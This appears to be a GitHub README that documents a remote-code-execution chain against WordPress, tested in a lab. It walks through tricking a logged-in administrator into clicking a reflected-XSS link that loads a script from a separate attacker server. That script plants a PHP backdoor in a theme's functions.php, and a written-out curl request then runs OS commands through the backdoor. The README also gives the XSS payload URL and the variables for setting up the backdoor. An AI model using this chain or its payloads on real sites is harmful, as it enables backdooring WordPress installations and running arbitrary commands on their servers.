

# [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.13` - web server hosting payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfour/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress -> Tools -> Theme File Editor -> Selece theme to edit - (select target theme from droplist) -> Select -> Theme Functions (functions.php) -> (remove backdoor) -> Update File*

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter


